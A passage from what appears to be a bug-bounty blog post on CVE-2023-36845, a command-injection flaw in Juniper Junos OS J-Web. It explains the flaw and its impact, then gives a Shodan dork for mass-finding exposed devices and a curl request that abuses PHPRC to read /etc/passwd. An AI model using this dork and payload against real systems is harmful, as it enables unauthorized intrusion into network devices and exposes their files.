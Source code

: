 ![](https://miro.medium.com/v2/resize:fit:788/1*nOV9HfzcyptjmbqQWtAXwA.png)

![](https://miro.medium.com/v2/resize:fit:308/1*vheXa7i7xemyUe2UC7Covw.png)

![](https://miro.medium.com/v2/resize:fit:299/1*kRzUirKnjhtMdISWSKN1Eg.png)

![](https://miro.medium.com/v2/resize:fit:306/1*Z0630N0vpyxY7tPFAN113Q.png)

![](https://miro.medium.com/v2/resize:fit:312/1*ctyHn38ZbUHKKBHmpmjeTQ.png)

3. The third thing is the **RCE (Command Injection) vulnerability**:

> _CVE-2023–36845_

_there are a lot of youtube POCs:_

Mass hunting for this CVE:

>https://www.youtube.com/watch?v=OJN29QPqjG4

https://www.youtube.com/watch?v=UDjj-4oRjqg

**CVE-2023-36845** is a **Remote Code Execution (RCE) vulnerability** affecting **Juniper Networks Junos OS** on **EX Series and SRX Series** devices. The flaw allows **unauthenticated attackers** to modify the PHP execution environment by manipulating the `PHPRC` variable, enabling them to **inject and execute arbitrary code**

### **How It Works**

- The vulnerability exists in **J-Web**, the web-based management interface of Junos OS.
    
- Attackers can send **crafted HTTP requests** that modify PHP settings.
    
- By setting `PHPRC` to an arbitrary file, they can **execute malicious code remotely**.
### **Impact**

- **Critical severity** (CVSS score: **9.8**).
    
- Can lead to **full system compromise**.
    
- Exploitable **without authentication**, making it highly dangerous.
### **Affected Versions**

- **EX Series & SRX Series** devices running Junos OS **prior to specific patched versions**.
    
- Versions **before 20.4R3-S9, 21.2R3-S7, 22.4R3**, and others.


The first thing you have to do is search using shodan, and this is the dork

```vb
Ssl.cert.subject.CN:”*.target.com” http.favicon.hash:2141724739
```

When you get the **IP**, try this:

```bash
curl -kv “https://target.com/about.php?PHPRC=/dev/fd/0" — data-binary ‘auto_prepend_file=”/etc/passwd”’
```
